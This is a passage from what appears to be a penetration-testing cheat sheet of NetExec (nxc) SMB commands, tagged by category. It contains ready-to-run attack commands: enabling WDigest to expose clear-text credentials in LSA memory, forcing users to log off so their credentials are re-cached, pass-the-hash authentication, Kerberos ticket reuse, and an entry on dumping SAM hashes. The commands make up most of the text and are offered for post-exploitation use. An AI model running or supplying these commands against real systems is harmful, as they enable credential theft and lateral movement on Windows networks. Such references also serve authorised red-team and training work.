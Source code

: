 enable/disable the WDigest provider and dump clear-text credentials from LSA memory.

```bash
nxc smb <ip> -u <user|Administrator> -p '<password>' --local-auth --wdigest enable
```

## nxc - loggout user
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #warning/modify_target #cat/POSTEXPLOIT

Can be useful after enable wdigest to force user to reconnect

```bash
nxc smb <ip> -u <user> -p '<password>' -x 'quser'
nxc smb <ip> -u <user> -p '<password>' -x 'logoff <id_user>' --no-output
```

## nxc - local-auth
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
nxc smb <ip> -u <user> -p <password> --local-auth
```

## nxc - local-auth with hash
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

```bash
nxc smb <ip> -u <user> -H <hash> --local-auth
```

## nxc - domain auth
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
nxc smb <ip> -u <user> -p <password> -d <domain>
```

## nxc - kerberos auth
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

Previously import ticket : 
export KRB5CCNAME=/tmp/ticket.ccache

```bash
nxc smb <ip> --kerberos
```

## nxc - Dump SAM
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump SAM hashes using methods from secretsdump.py
You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account
